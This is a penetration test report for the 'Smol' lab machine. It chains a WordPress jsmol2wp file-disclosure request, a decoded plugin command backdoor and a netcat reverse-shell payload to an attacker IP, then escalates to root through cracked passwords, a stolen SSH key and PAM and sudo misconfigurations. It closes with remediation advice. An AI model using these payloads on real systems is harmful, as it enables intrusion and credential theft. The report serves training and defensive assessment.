---

# **Penetration Test Report: Smol**

---

### **TL;DR**

This penetration test achieved full root compromise by chaining multiple vulnerabilities. The attack began with a file disclosure flaw in a WordPress plugin, which led to discovering a backdoor that provided an initial shell. 

Privilege escalation was then performed through password cracking, stealing an SSH key, exploiting a PAM misconfiguration, and finally leveraging unrestricted sudo privileges to gain root access.

---

**Target Information**

- **Target IP:** 10.114.162.63
- **Operating System:** Linux
- **Open Ports:**
    - 22/tcp – SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.9)
    - 80/tcp - HTTP (Apache httpd 2.4.41 (Ubuntu))
- **Assessment Type:** Authorized lab environment

---

### **Executive Summary**

A comprehensive external penetration test was conducted against the target infrastructure identified as `smol.thm`. The assessment aimed to identify vulnerabilities, misconfigurations, and potential attack paths that could lead to a full system compromise.

The assessment successfully demonstrated a critical path from initial external reconnaissance to gaining root-level access on the target server. 

The initial breach was achieved by exploiting a known file disclosure vulnerability in a WordPress plugin, which led to the discovery of a backdoor within another plugin. This allowed for remote code execution and an initial foothold on the system. A series of privilege escalation techniques, including credential cracking, private key theft, PAM misconfiguration exploitation, and password cracking, were then employed to escalate privileges to the `root` user.

**Overall Risk Rating: Critical**

The findings highlight the cascading impact of insecure coding practices, configuration weaknesses, and the accumulation of sensitive information. The compromise of a low-privileged user ultimately led to complete control of the host, demonstrating a significant breach of the security perimeter.

---

### **Scope and Methodology**

**Scope:**

- **Target:** `10.114.162.63`
- **Hostnames:** `smol.thm`, `www.smol.thm`
- **Ports/Protocols:**
    - `22/tcp` (SSH)
    - `80/tcp` (HTTP)

**Methodology:**

1. **Reconnaissance & Enumeration:** Identifying open ports, running services, and publicly accessible information.
2. **Vulnerability Enumeration:** Identifying potential security flaws within discovered services and applications.
3. **Exploitation:** Gaining unauthorized access by leveraging identified vulnerabilities.
4. **Post-Exploitation & Privilege Escalation:** Establishing persistence, escalating privileges, and identifying sensitive data.
5. **Documentation:** Documenting findings, risk assessment, and recommended remediation steps.

---

### **Findings and Exploitation**

### **Initial Access: External Compromise via WordPress Plugin Vulnerabilities**

**Vulnerability Summary**

The initial foothold was achieved through a chain of vulnerabilities in the WordPress installation. This phase exploited two distinct weaknesses: an information disclosure vulnerability and a hidden backdoor.

**Technical Walkthrough**

1. **Reconnaissance:** A two-stage reconnaissance approach was employed to map the target's attack surface while minimizing detection.
    
    **Step 1 – Port Discovery:** A fast, low-noise TCP SYN scan was conducted against the top 1000 ports to identify open services without performing deep service detection.
    
    
    
    **Step 2 – Service Enumeration:** With the open ports identified, a targeted, in-depth scan was performed to gather version information and run default scripts against only the relevant ports (22 and 80). This approach reduced network noise while maximizing information gathering.
    
    
    
    The results confirmed two open ports—`22` (SSH) and `80` (HTTP)—with the HTTP service redirecting to `http://www.smol.thm`.
    
2. **WordPress Enumeration:** Using `wpscan`, the outdated plugin `jsmol2wp v1.07` was identified. 





1. **Exploit: File Disclosure (CVE-2018-20463):** This plugin version is vulnerable to a file disclosure attack. By crafting a malicious request, the contents of `wp-config.php` were retrieved, exposing database credentials (`wpuser:kb[REDACTED]%G`).

**Payload:**

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`



1. **Lateral Movement: Compromise of WordPress Admin:** The obtained credentials were successfully used to log in to the WordPress admin panel (`/wp-login.php`).


1. **Discovery of Backdoor:** A private page, "Webmaster Tasks!!," contained a to-do list mentioning a potential backdoor in the "Hello Dolly" plugin. Using the file disclosure vulnerability again, the plugin's source code was retrieved.
    
    
    
    
    
2. **Reverse Engineering the Backdoor:** The base64 string decoded to a piece of code that checks for a `cmd` parameter and executes it using `system()`.
    
    php
    
    ```
    if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
    ```
    
3. **Exploitation for Remote Code Execution:** Since the `hello_dolly()` function is called on every dashboard page, a reverse shell payload was sent via the `cmd` parameter to the admin panel.
    
    
    
    **Payload:**
    
    `http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.114.102.68%204444%20%3E%2Ftmp%2Ff`
    
4. **Result:** A reverse shell was obtained as the `www-data` user.
    
    
    

---

### **Internal Reconnaissance & Privilege Escalation to `diego`**

**Vulnerability Summary**

Weak password storage and password reuse allowed for a user account to be compromised, providing a more stable foothold on the system.

**Technical Walkthrough**

1. **Database Access:** Using the database credentials from `wp-config.php`, the MySQL database was queried to extract password hashes for all WordPress users.
    
    
    
2. **Credential Cracking:** The password hash for the user `diego` was cracked using `john` with the `rockyou.txt` wordlist. The plaintext password was found to be `sa*******ia`.
    
    
    
3. **Privilege Escalation:** The cracked password was used to switch to the `diego` user via `su`, providing a more capable user shell.

```bash
www-data@smol:/var/www/wordpress/wp-admin$ su - diego
Password: [REDACTED]
diego@smol:~$
```

---

### **Privilege Escalation to `think` via Private Key Theft**

**Vulnerability Summary**

Insecure file permissions within the `/home` directory allowed a user to read the private SSH key of another user, leading to account takeover.

**Technical Walkthrough**

1. **Group Membership Check:** The `diego` user was found to be a member of the `internal` group.
    
    
    
2. **Sensitive Data Discovery:** This group membership granted read access to other users' home directories (e.g., `think`, `gege`, `xavi`). An SSH private key was discovered in `/home/think/.ssh/id_rsa`.
    
    
    
3. **Lateral Movement:** The discovered private key was used to establish an SSH session as the `think` user.
    
    
    

---

### **Privilege Escalation to `gege` via PAM Misconfiguration**

**Vulnerability Summary**

A misconfigured Pluggable Authentication Module (PAM) rule for the `su` command allowed for password-less privilege escalation.

**Technical Walkthrough**

1. **Configuration Analysis:** The `/etc/pam.d/su` file contained a rule that allowed any user to switch to the `gege` user if they were currently `think`.
    
    
    
2. **Exploitation:** The `think` user was able to switch to `gege` without any password prompt.
    
    ```bash
    think@smol:~$ su - gege
    gege@smol:~$ id
    uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
    ```
    

---

### **Privilege Escalation to `xavi` via Password Cracking**

**Vulnerability Summary**

A password-protected ZIP archive in a user's home directory contained historical configuration data, including credentials for another user.

**Detailed Steps**

1. **Sensitive File Discovery:** A large ZIP archive, `wordpress.old.zip`, was found in the `gege` user's home directory.
2. **Data Extraction & Cracking:** The file was downloaded and found to be password-protected. Using `fcrackzip`, the archive password was cracked as `he**********.com`.
    
    
    
    
    
3. **Credential Harvesting:** Upon extraction, the `wp-config.php` file within the archive revealed new database credentials, specifically for the user `xavi` (`P@[REDACTED]i@`).
    
    
    
4. **Privilege Escalation:** These credentials were used with `su` to successfully switch to the `xavi` user.
    
    
    
    ```
    gege@smol:~$ su - xavi
    Password: P@[REDACTED]i@
    xavi@smol:~$ id
    uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
    ```
    

---

### **Privilege Escalation to `root` via Sudo**

**Vulnerability Summary**

The `xavi` user was granted unrestricted `sudo` privileges, allowing for immediate and complete system takeover.

**Detailed Steps**

1. **Sudo Privilege Check:** The `xavi` user had full administrative privileges as shown by the `sudo -l` command.
    
    ```
    xavi@smol:~$ sudo -l
    User xavi may run the following commands on smol:
        (ALL : ALL) ALL
    ```
    
2. **Root Access:** This privilege was leveraged to switch to the `root` user, resulting in full system compromise.
    
    ```
    xavi@smol:~$ sudo su -
    root@smol:~$ id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
    
    

---

### **Risk Assessment**

| **Finding** | **Description** | **Likelihood** | **Impact** | **Risk Rating** |
| --- | --- | --- | --- | --- |
| **Vulnerable WordPress Plugin** | Outdated `jsmol2wp` plugin with known file disclosure vulnerability (CVE-2018-20463). | High | Medium | **High** |
| **Backdoor in Plugin** | A backdoor in the "Hello Dolly" plugin allows for remote code execution. | High | High | **Critical** |
| **Weak Credentials** | WordPress user password (`diego`) cracked using a common wordlist. | Medium | Medium | **Medium** |
| **Insecure File Permissions** | User home directories readable by `internal` group, exposing a private SSH key. | High | High | **High** |
| **PAM Misconfiguration** | Flawed `/etc/pam.d/su` rules allow password-less privilege escalation to `gege`. | Low | High | **High** |
| **Insecure Data Storage** | Password-protected ZIP archive containing sensitive credentials stored in a user's home directory. | Medium | Medium | **Medium** |
| **Excessive Sudo Privileges** | User `xavi` has unrestricted `sudo` (ALL : ALL) privileges. | High | Critical | **Critical** |

---

### **Conclusion**

The security assessment of the "Smol" infrastructure successfully compromised the target system, achieving full root-level access. The attack chain began with a relatively low-impact file disclosure vulnerability in a WordPress plugin, which, when combined with a discovered backdoor, provided a foothold. This initial access was then methodically escalated through a series of common but effective post-exploitation techniques, including password cracking, private key theft, and the exploitation of misconfigurations in PAM and sudo.

The path to root highlights a critical security principle: **security is only as strong as the weakest link in the chain.** Each step of the escalation process relied on a distinct vulnerability or misconfiguration. The final compromise was made trivial by granting unrestricted `sudo` privileges to the final user.

---

### **7. Recommendations**

1. **Vulnerability Management:**
    - Implement a strict patch management policy for all third-party software, especially WordPress core, themes, and plugins. Remove or update the outdated `jsmol2wp` plugin immediately.
    - Conduct regular vulnerability scans of the web application and underlying infrastructure.
2. **Secure Development & Configuration:**
    - **Remove Backdoors:** Immediately remove any backdoor or unauthorized code from all plugins, including the "Hello Dolly" plugin if its use is not required.
    - **Review WordPress Plugins:** Maintain only necessary plugins. Remove any plugins that are not essential for business operations.
3. **Credential Management:**
    - Enforce a strong password policy for all users. Passwords like `s*******nia` are vulnerable to dictionary attacks.
    - Never store credentials in plain text in configuration files (like `wp-config.php`) or backups.
    - Implement a password manager for administrative and developer accounts.
4. **Access Control & Privilege Management:**
    - **Least Privilege:** Strictly adhere to the principle of least privilege. The `xavi` user should not have unrestricted `sudo` access. Its `sudo` privileges should be scoped to only the commands required for its function.
    - **Review Group Memberships:** Re-evaluate group permissions, especially the `internal` group, to ensure users cannot access each other's home directories without a business justification.
    - **Secure PAM Configuration:** Review and harden the PAM configuration for `su` to prevent unintended password-less access. Implement proper authentication controls.
5. **Data Security & Backups:**
    - Ensure that sensitive information (e.g., SSH keys, configuration files) is not stored in user home directories with world-readable permissions.
    - Secure backup archives. A password-protected ZIP file is not sufficient if the password is weak. Backups should be encrypted and stored in a secure, segregated location.
6. **Network Segmentation & Monitoring:**
    - Implement network segmentation to limit lateral movement within the infrastructure.
    - Deploy endpoint detection and response (EDR) and monitor logs for suspicious activities, such as unusual `su` commands or the execution of uncommon processes like `mkfifo` and `nc`.